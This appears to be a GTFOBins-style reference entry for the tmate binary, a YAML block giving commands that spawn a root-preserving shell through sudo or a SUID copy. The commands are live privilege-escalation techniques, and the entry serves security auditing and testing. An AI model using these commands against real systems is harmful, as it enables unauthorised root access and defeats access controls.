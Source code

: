 ```yaml
---
functions:
  sudo:
    - code: sudo tmate -c '/bin/sh'
  suid:
    - code: ./tmate -c '/bin/sh -p'
---
```

